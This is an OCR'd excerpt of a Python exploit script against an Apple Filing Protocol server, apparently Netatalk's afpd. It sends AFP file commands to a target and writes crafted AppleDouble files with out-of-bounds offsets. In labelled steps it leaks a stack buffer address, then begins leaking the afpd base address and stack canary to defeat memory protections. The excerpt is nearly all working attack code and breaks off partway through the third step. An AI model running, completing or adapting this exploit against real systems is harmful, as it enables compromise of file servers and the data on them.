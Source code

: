 ```plain
response, request_id = FPCloseFork(p, request_id, fork2, debug)
response, request_id = FPCloseFork(p, request_id, fork3, debug)
# delete temporary files
response, request_id = FPDelete(p, request_id, volume_id, 2, 2, tempfile_name_normal, debug)
response, request_id = FPDelete(p, request_id, volume_id, 2, 2, tempfile_name_adouble, debug)


# step 2:   leak ad buff address on stack
#------------------------------------------------------------------------------------------------
cpt_file_name += 1
tempfile_name_normal = str.encode('{}_{}'.format(tempfile_name, cpt_file_name))
tempfile_name_adouble = str.encode('._{}_{}'.format(tempfile_name, cpt_file_name))

#prepare appledouble with oob
# leak address inside ad structure on stack
appledouble = createAppleDouble(-0x40)

# create a simple file with bullshit inside
response, request_id = FPCreateFile(p, request_id, volume_id, 2, 2, tempfile_name_normal, debug)
response, request_id, fork1 = FPOpenFork(p, request_id, 0, volume_id, 2, 0, 3, 2,tempfile_name_normal, debug)

data = b'Hello'
response, request_id = FPWriteExt(p, request_id, fork1, 0, len(data), data, debug)
response, request_id = FPCloseFork(p, request_id, fork1, debug)

# create an appledouble file on target
response, request_id = FPCreateFile(p, request_id, volume_id, 2, 2, tempfile_name_adouble, debug)
response, request_id, fork2 = FPOpenFork(p, request_id, 0, volume_id, 2, 0, 3, 2, tempfile_name_adouble, debug)
response, request_id = FPWriteExt(p, request_id, fork2, 0, len(appledouble), appledouble, debug)    

# time to trig the leak
response, request_id, fork3 = FPOpenFork(p, request_id, 1, volume_id, 2, 0, 3, 2, tempfile_name_normal, debug)

# get the leak inside appledouble
response, request_id = FPReadExt(p, request_id, fork2, 0, 128, debug)

print('response:\n----------------\n'+hexdump(response))
leak2 = u32(response[0x4c:0x50], endian='little')
ad_addr = leak2 - 0x158
print('\nad buff on stack address = '+hex(ad_addr)+'   (leak2 = '+hex(leak2)+')')

response, request_id = FPCloseFork(p, request_id, fork2, debug)
response, request_id = FPCloseFork(p, request_id, fork3, debug)
response, request_id = FPDelete(p, request_id, volume_id, 2, 2, tempfile_name_normal, debug)
response, request_id = FPDelete(p, request_id, volume_id, 2, 2, tempfile_name_adouble, debug)

# step 3:   leak afpd_base and canary
#------------------------------------------------------------------------------------------------
cpt_file_name += 1
tempfile_name_normal = str.encode('{}_{}'.format(tempfile_name, cpt_file_name))
tempfile_name_adouble = str.encode('._{}_{}'.format(tempfile_name, cpt_file_name))

#prepare appledouble with oob
# leak address inside ad structure on stack
appledouble = createAppleDouble(-0x286)

# create a simple file with bullshit inside
response, request_id = FPCreateFile(p, request_id, volume_id, 2, 2, tempfile_name_normal, debug)
```